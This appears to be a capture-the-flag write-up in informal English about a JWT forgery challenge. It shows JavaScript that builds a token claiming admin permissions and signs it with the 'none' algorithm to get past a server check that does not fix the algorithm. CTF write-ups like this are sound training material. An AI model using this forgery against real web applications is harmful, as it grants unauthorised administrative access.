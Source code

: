 ```javascript
		res.locals.flag = false;
	}
	next();
});
```


## Writeup

I didn't managed to end this challenge. A frind gave me a tips after the end of the CTF.

First we can see that that is again a JWT forgery challenge. 
We quicly understant that we need to craft a jwt with a admin perms. 
To test, I use this code :
```javascript
    let secrets = [];
    secrets.push(crypto.randomBytes(32)); //fill it a bit
    secrets.push(crypto.randomBytes(32)); //fill it a bit

    let cookie = jwt.sign({
        perms: "admin", //the goal is to be admin
        secretid: 0, //we can change it
        rolled: "no"
      }, crypto.randomBytes(32), { algorithm: "HS256"  });

    //first contol
    let sid = JSON.parse(Buffer.from(cookie.split(".")[1], 'base64').toString()).secretid;
		if (sid==undefined || sid>=secrets.length || sid<0) {
			console.log('KO sid');
    }

    //second control
    try
    {
      let decoded = jwt.verify(cookie, secrets[sid]);
      if (decoded.perms == "admin") {
        console.log('WIN');
      }
    }catch (err) {
		  	console.log('KO: decoded');
	  }

```

The challenge is to pass the jwt.verify(cookie, secrets[sid]);
We can see there is no algorithm, so it will take the one from the JWT. So we can set it to none because we don't have acces to the secrets array:
```javascript
let cookie = jwt.sign({
        perms: "admin", //the goal is to be admin
        secretid: 0, //we can change it
        rolled: "no"
      }, crypto.randomBytes(32), { algorithm: "none"  });
```
